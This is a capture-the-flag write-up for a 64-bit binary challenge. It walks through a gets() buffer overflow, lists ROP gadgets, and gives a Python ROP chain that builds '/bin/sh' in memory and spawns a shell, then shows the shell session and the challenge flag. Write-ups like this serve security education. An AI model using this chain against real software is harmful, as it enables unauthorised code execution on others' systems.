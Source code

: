 # Admin - 64bit pwn
we are given a staticly linked 64bit executable with NX enabled but no PIE or stack canary.   
```console
root@kali:~/CTF/jctf/admin# ./admin 
Username: 
admin
Welcome admin
```
we immediately see a buffer overflow.     
```console
root@kali:~/CTF/jctf/admin# python -c "print 'A'*500"| ./admin 
Username: 
Bye AAAAAAAAAAAA...
Segmentation fault
```
after analysing the code we can see why that is.
(the function names don't appear because of the static linking but it's easy to guess their names).                

```asm
lea     rax, [rbp+input]
mov     rdi, rax
mov     eax, 0
call    gets ; a call to gets = BOF
lea     rax, [rbp+input]
lea     rsi, aAdmin     
mov     rdi, rax
call    strcmp
test    eax, eax
jnz     short loc_400B97
```
ok. a rop chain is needed to gain code execution.         
using ROPgadget we can find a syscall gadget.        
```nasm
0x000000000040123c : syscall
```
but no "/bin/sh" in the binary.            
this requires some write gadget.                  
this is the one I chose.         
```nasm
0x000000000048d102 : mov dword ptr [rax], edx ; ret
```
we pick somewhere in a rw section to place our string and craft a rop chain using some more gadgets:           
```nasm
0x000000000044bce9 : pop rdx ; pop rsi ; ret
0x0000000000415544 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
```
(full code is in exploit.py)
```python
str_dest=0x006b6208  # someplace in a rw section

exploit=b'A'*72
exploit+=p64(SET_RDX_RSI)
exploit+=b'/bin\x00\x00\x00\x00'
exploit+=p64(0x41414141)
exploit+=p64(SET_RAX)
exploit+=p64(str_dest)
exploit+=p64(WRITE_EDX_RAX)
exploit+=p64(SET_RDX_RSI)
exploit+=b'/sh\x00\x00\x00\x00\x00'
exploit+=p64(0x41414141)
exploit+=p64(SET_RAX)
exploit+=p64(str_dest+4)
exploit+=p64(WRITE_EDX_RAX)


exploit+=p64(SET_RDX_RSI)
exploit+=p64(0x0)
exploit+=p64(0x0)
exploit+=p64(SET_RDI)
exploit+=p64(str_dest)
exploit+=p64(SET_RAX)
exploit+=chr(0x3b)+"\x00"*7
exploit+=p64(SYSCALL)

r.sendline(exploit)
r.interactive()
```
and...             
nice.
```console
root@kali:~/CTF/jctf/admin# python exploit.py 
[+] Opening connection to 35.186.153.116 on port 7002: Done
[*] Switching to interactive mode
$ ls
admin
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
$  
```
